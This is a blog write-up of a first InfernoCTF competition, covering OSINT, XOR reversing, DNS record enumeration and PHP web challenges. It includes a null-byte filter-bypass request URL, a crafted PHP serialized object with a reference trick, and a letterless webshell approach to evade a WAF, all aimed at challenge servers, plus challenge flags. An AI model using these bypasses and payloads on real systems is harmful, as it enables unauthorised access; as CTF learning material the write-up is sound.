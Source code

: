 ```yaml
---
title: "My First Ever CTF: InfernoCTF"
author: chankruze
date: 2019-12-28 14:05:52 +05:30
categories: [CTF]
tags: [Writeups, CTF]
thumbnail: https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png
desc: "Writeup on the challenges i was able to solve*"
---
```

{: .align-center}
![featured-image](https://res.cloudinary.com/chankruze/image/upload/v1577522418/blog/CTF/InfernoCTF/logs.png)

Hi fellas, imma back again but this time i participated an online CTF which was a dream for me ;)

It was a lil frustrating because due to inexperince i wasn't able to solve 3 challenges which was really sneaky and i love them. Here i'll discuss how i approached them.

#### Discord
For this challenge the flag was available at discord server in channel `#announcement`.

```text
Flag: infernoCTF{Y0u_sh4ll_R0t_1n_h3ll_n0w}
```

#### New Developer
This was also very easy OSINT challenge.

I checked iamthedeveloper123's repositories list, latest commit by this time was in `bash2018` repo.

So i checked latest commit for which it was 1 commit ahead of parent [f6008f3d67829ad0ab19d029eec6833a196db8d8](https://github.com/iamthedeveloper123/bash2048/commit/f6008f3d67829ad0ab19d029eec6833a196db8d8).

```bash
  printf "\nYou have lost, better luck next time.\033[0m\n"
  source ../dotfiles/.bashrc2
  printf "\nYou have lost, try going to https://pastebin.com/$CODE for help!.  (And also for some secrets...) \033[0m\n"
```
Here it was confirmed that the `.bashrc2` file in other repo sets a variable `CODE`. By checking that file [here](https://github.com/iamthedeveloper123/dotfiles/blob/5365d3e99331d2b301dc7a0572afdd78b4c6e2db/.bashrc2#L83), i got value of CODE (`trpNwEPT`) which is the pastebin shorten code. And opeing [https://pastebin.com/trpNwEPT](https://pastebin.com/trpNwEPT) gives us the flag.

```text
Flag: infernoCTF{n3ver_4dd_sen5itv3_7hings_to_y0ur_publ1c_git}
```

Btw i was unable to solve the other challenge `Whistle Blower` which was related to this. I got a hint i guess for `InfoSec` twitter.

#### Where did he GO?
This was pretty straight forward.

The string flag was stored in bytes. so i added a print statement to see it and run without entering any password.

```bash
$ ./test 
Enter Password: 

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega

# jai_ram_ji_ki

# mandir_wahi_banega

# jai_ram_ji_ki

Don't Worry, Relax, Chill and Try harder
```

Becuse it was using `^` for encryption, i enterned flag as password to get the decrypted string:

```bash
$ ./test
Enter Password: !!tA3rG_s1_gn1MMaRg0rP_0g

# encrypted code
!!tA3rG_s1_gn1MMaRg0rP_0g

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!
g0_Pr0gRaMM1ng_1s_Gr3At!!

# mandir_wahi_banega
!!tA3rG_s1_gn1MMaRg0rP_0g

# jai_ram_ji_ki
g0_Pr0gRaMM1ng_1s_Gr3At!!

Don't Worry, Relax, Chill and Try harder
```

Now print statements are removed and re compiled & run again:

```bash
$ ./test
Enter Password: g0_Pr0gRaMM1ng_1s_Gr3At!!
You Cracked it, A Hero is born
```

```text
Flag: infernoCTF{g0_Pr0gRaMM1ng_1s_Gr3At!!}
```

#### Check Again
This pissed off a lot !

The hint `[D]ante [N]ero [S]parda a[re] the true de[mon]s.` was awesome ! Here i get `DNSremon` which is close enough to `dnsrecon`.

```bash
$ dnsrecon -d infernoctf.live
[*] Performing General Enumeration of Domain: infernoctf.live
[!] Wildcard resolution is enabled on this domain
[!] It is resolving to 104.31.82.146
[!] All queries will resolve to this address!!
[-] All nameservers failed to answer the DNSSEC query for infernoctf.live
[*] 	 SOA cora.ns.cloudflare.com 162.159.38.195
[*] 	 NS cora.ns.cloudflare.com 162.159.38.195
[*] 	 Bind Version for 162.159.38.195 20171212
[*] 	 NS cora.ns.cloudflare.com 2606:4700:50::a29f:26c3
[*] 	 Bind Version for 2606:4700:50::a29f:26c3 20171212
[*] 	 NS sid.ns.cloudflare.com 173.245.59.143
[*] 	 Bind Version for 173.245.59.143 20171212
[*] 	 NS sid.ns.cloudflare.com 2606:4700:58::adf5:3b8f
[*] 	 Bind Version for 2606:4700:58::adf5:3b8f 20171212
[-] Could not Resolve MX Records for infernoctf.live
[*] 	 A infernoctf.live 104.31.83.146
[*] 	 A infernoctf.live 104.31.82.146
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5292
[*] 	 AAAA infernoctf.live 2606:4700:30::681f:5392
[*] 	 SPF v=spf1 a mx ?all - infernoCTF{N1c3_Pl4c3_
[*] 	 TXT infernoctf.live 70_h1d3_1n_th3_Rec0rds}
[*] 	 TXT infernoctf.live ca3-d0f129e83e07442d981e6eadd9e57915
[*] Enumerating SRV Records
[-] No SRV Records Found for infernoctf.live
[+] 0 Records Found
```

```text
Flag: infernoCTF{N1c3_Pl4c3_70_h1d3_1n_th3_Rec0rds}
```

#### Dante's Personal Home Page
`preg_match("/_| /i", $check)` can be passed using `.` which transforms to `_` in php external variables. Thanks to @13k53c for pointing to the external variable docs.

It was exploiting null byte poisoning to bypass egrep which was the second check (`ereg ("^[a-zA-Z0-9]+$", $magic)`) using `\x00` which encode looks like `A%00`.

The request URL was:`http://104.197.168.32:17011/?..magic..=A%00$dark$`

```text
Flag: infernoCTF{1_gu3ss_y0ur_m4g1c_was_w4y_t00_d4rk}
```

**UPDATE**

#### Dank PHP
First i created a `test.php` file to generate searilized data for the `id`. Which looks like below snippet:

```php
<?php

class user {
  var $name;
  var $pass;
  var $secret;
}

$new_user = new user();

$new_user->name = "admin";
$new_user->pass = &$new_user->secret;

echo (serialize($new_user));

?>
```

This generates the serialized data `O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}` for `id` param. Then i used python `urllib` to encode it properly:

```python
>>> import urllib
>>> urllib.quote('O:4:"user":3:{s:4:"name";s:5:"admin";s:4:"pass";N;s:6:"secret";R:3;}')
'O%3A4%3A%22user%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A5%3A%22admin%22%3Bs%3A4%3A%22pass%22%3BN%3Bs%3A6%3A%22secret%22%3BR%3A3%3B%7D'
```

Now the second part was to bypass WAF and run `echoFlag()`. Which can be done with Php webshell without numbers and letters. And there was also a length limitation of 45 digits. So we required string length 45. Thanks to @13k53c again, he was able to discover [40 digits webshell](https://gist.github.com/mvisat/03592a5ab0743cd43c2aa65bf45fef21).

Now the `caption` param becomes `caption = "$_=" + make_letters("echoFlag") + ";$_();"`.

I was about to write my curl style here but @13k53c shared his awesome python script to do whole process and print the flag in one script. The script is [here](https://ideone.com/xxJmE0).

```text
Flag: infernoCTF{pHp_1s_a_h34dache}
```

Yeh definitely, it was a headache ;(

Thanks for reading ;) Will update it later when ingoing challenges are solved. Btw imma doing another CTF so, this is it !